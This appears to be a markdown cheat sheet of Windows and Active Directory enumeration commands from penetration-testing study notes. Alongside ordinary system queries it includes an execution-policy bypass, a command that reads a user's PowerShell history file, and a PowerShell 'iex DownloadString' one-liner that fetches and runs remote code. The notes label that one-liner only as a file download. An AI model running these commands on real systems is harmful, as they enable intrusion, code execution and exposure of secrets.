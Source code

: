       - [Computer Search](#Computer\Search)
      - [Wildcard Search](#Wildcard\Search)
      - [Users With Specific Attributes Set (PASSWD_NOTREQD)](#Users\With\Specific\Attributes\Set\(PASSWD_NOTREQD))
      - [Searching for Domain Controllers](#Searching\for\Domain\Controllers)

#### Basic Enumeration Commands

|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|


## Basic Enumeration
1. `hostname`
2. `[System.Environment]::OSVersion.Version`
3. `wmic qfe get Caption,Description,HotFixID,InstalledOn` 
4. `ipconfig /all`

or can all be covered using:
`systeminfo`


### Harnessing Powershell
	CMD-Lets
`Get-Module`
	List the available modules loaded for use
`Get-ExecutionPolicy -List`
	Print the execution policy settings for each scope on a host
`Set-ExecutionPolicy Bypass -Scope Process`
	Change the policy for current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. 
`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`
	Get the specific users Powershell history

`Get-ChildItem Env: | ft Key,Value`
	Return environment values such as key paths, users, computer information etc.

`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow on commands>`
	Download a file from a URL.
